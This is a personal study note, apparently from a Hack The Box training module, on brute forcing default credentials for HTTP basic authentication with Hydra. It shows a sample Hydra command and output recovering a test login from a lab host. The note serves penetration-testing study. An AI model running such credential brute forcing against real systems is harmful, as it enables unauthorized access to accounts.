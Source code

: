 
***
###### `Title :- Default Passwords`
###### `Created on :- 2023-06-25 - 19:37`
###### `Created by:- Prem J`
***

- Many employees in the companies use default passwords offered by the application.
- It the password or username is incorrect `Basic HTTP authentication` will result in a HTTP 401 Unauthorised message.

#### `Hydra -->`

- `Hydra` is a handy tool for Login Brute Forcing, as it covers a wide variety of attacks and services and is relatively fast compared to the others. 
- It can test any pair of credentials and verify whether they are successful or not but in huge numbers and a very quick manner.
- it can be installed using `apt install hydra` or from a its [Github Repository](https://github.com/vanhauser-thc/thc-hydra).

#### `Default Passwords -->`

- As we don't know any of the username or password, we need to brute force both fields. We can either provide different wordlists for both fields and iterate over all possible username and password combinations.
- However, the above mentioned process should be held as the last resort.
- It is common to find pairs of usernames and passwords used together like `test:test`. Hence it is always better to start with a wordlist of such credential pairs.

```shell-session
prem@htb[/htb]$ hydra -C wordlist 178.211.23.155 -s 31099 http-get /

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

[DATA] max 16 tasks per 1 server, overall 16 tasks, 66 login tries, ~5 tries per task
[DATA] attacking http-get://178.211.23.155:31099/
[31099][http-get] host: 178.211.23.155   login: test   password: testingpw
[STATUS] attack finished for 178.211.23.155 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

- `-C` options indicates that we are using a combine credential wordlist in order to target the IP on port (`-s`) using `http-get` method. (`/` - Target path) 

>[!tip]
>It's pretty common for administrators to overlook test or default accounts and their credentials. That is why it is always advised to start by scanning for default credentials, as they are very commonly left unchanged. It is even worth testing for the top 3-5 most common default credentials manually, as it can very often be found to be used.

